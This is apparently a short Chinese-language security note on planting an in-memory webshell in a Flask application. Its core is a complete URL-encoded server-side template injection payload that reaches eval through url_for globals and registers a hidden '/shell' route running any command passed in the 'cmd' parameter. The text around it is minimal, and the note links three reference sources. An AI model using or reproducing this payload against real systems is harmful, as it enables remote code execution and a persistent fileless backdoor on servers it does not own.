

# python flask 内存马

先起一个带有ssti的flask：

插入路由：

```
http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```


访问植入的shell：



参考：

https://github.com/iceyhexman/flask_memory_shell

https://segmentfault.com/a/1190000022175553

https://xz.aliyun.com/t/8029